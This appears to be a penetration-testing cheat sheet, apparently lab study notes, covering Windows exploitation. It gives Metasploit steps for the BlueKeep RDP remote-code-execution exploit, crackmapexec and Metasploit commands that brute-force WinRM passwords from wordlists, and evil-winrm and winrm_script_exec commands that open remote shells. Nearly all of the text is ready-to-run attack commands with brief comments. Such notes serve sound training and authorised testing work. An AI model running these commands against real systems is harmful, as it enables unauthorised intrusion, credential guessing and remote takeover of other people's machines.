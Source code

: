 ```msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
show options
set RHOST <ip-address>
show target 
set target <target-number>
exploit
```

> Module can be used to exploit the vulnerability and then get access. 

#### Exploiting WinRM:

```Shell
crackmapexec winrm <ip-address> -u administrator -p /usr/share/metasploit/unix_passwords.txt
```

> WinRM brute force command using `crackmapexec`.

```Shell
crackmapexec winrm <ip-address> -u administrator -p <password>
```

> This command can be used to execute arbitrary command on the windows machine.

```Shell
eveil-winrm.rb -u administrator -p '<password>' -i <ip-address>
```

> This will automatically provide us a command shell session.

```msfconsole
use exploit/windows/winrm/winrm_script_exec
show options
set RHOST <ip-address>
set FORCE_VBS true
set USERNAME administrator
set PASSWORD <password>
exploit
```

> This will provide us with a shell session as well.

```msfconsole
use auxiliary/scanner/winrm/winrm_login
set RHOSTS demo.ine.local
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set PASSWORD anything
exploit
```

> Can be used to brute force the creds.

```msfconsole
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS demo.ine.local
exploit
```
